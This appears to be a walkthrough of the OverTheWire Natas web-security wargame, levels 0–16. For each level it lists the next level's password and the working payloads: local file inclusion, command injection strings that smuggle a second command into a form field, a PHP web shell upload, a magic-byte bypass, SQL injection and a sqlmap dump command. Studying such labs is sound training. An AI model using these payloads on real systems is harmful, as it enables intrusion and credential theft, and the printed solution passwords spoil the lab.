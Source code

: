 # Natas

### Level numbers are the current level, passwords are for the next level

## Level 0

View page source.

g9D9cREhslqBKtcA2uocGHPfMZVzeFK6

## Level 1

Disable javascript or use devtools.

h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7

## Level 2

View source, note presence of /files directory. Users.txt contains passwords.

G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

## Level 3

Source comment indicates presence of robots.txt, revealing /s3cr3t/ path. Users.txt contains passwords.

tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

## Level 4

Alter referer request header to http://natas5.natas.labs.overthewire.org/

Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

## Level 5

Alter `loggedin` cookie value to 1.

fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

## Level 6

View PHP source code, secret is in included file `/includes/secret.inc`

FOEIUWGHFEEUHOFUOIU

jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

## Level 7

An LFI exploit is possible via the `page` query string parameter:

`http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8`

a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

## Level 8

View PHP source, note encoding function. Simply reverse the encoding process to get the secret which reveals the flag.

```php
echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));
```
oubWYf2kBq

Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

## Level 9

View PHP source code. Obvious injection vulnerability is present via `passthru` call with input: 

`; echo /etc/natas_webpass/natas10`

D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

## Level 10

Same vulnerability as Level 9, but requires us to do it without semicolon to escape:

`. cat /etc/natas_webpass/natas11`

1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg

## Level 11

Cookies are json encoded objects:

```php
array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"); 
```

They are then XOR'd with an unknown key, and lastely base64 encoded.

With some reversing of the XOR code we can divine the key used:

```php
$cookie = "MGw7JCQ5OC04PT8jOSpqdmkgJ25nbCorKCEkIzlscm5oKC4qLSgubjY=";  
  
function xor_encrypt($in) {  
    $key = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));  
    $text = $in;  
    $outText = '';  
  
    // Iterate through each character  
    for($i=0;$i<strlen($text);$i++) {  
    $outText .= $text[$i] ^ $key[$i % strlen($key)];  
    }  
  
    return $outText;  
}  
  
echo xor_encrypt(base64_decode($cookie));  

// KNHL
```

Now we just encode our own cookie using the key and set it into the browser context.

YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

## Level 12

Challenge can be exploited by uploading a malicious php file and changing the extension the form is expecting.

```php
<?php echo system("cat /etc/natas_webpass/natas13"); ?>
```

We can then visit the script and get the key:

`http://natas12.natas.labs.overthewire.org/upload/92196mmfbo.php`

lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

## Level 13

Same as level 13, except we can only upload files that pass a `exif_imagetype` check.

We can craft a malicious payload by saving a php script with the .jpg extension and using a hex editor to insert the magic jpeg bites at the beginning of the file: `FF D8 FF DB`

qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

## Level 14

SQL injection is evident when examining the PHP source code. Submitting the password parameter like so will reveal the password:

`password: " or "1" = "1`

TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB

## Level 15

SQL injection is used to elicit the `natas16` user's password via a brute force comparison approach. 

~~See natas15.py~~

Ended up using sqlmap instead, for some reason the python brute force method could not get past `aOlfEjHqj32V` despite confirming that I'm testing all possible characters.

```sh
sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" --string="This user exists" --auth-type=Basic --auth-cred=natas15:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB --data "username=natas16" --level=5 --risk=3 -D natas15 -T users -C username,password --dump
```

TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

## Level 16

This is blind injection(not SQL, however), exploitable in a similar fashion as level 10. We cannot use even more characters this time.

Example input:
`wrong$(grep a /etc/natas_webpass/natas17)`

See natas16.py

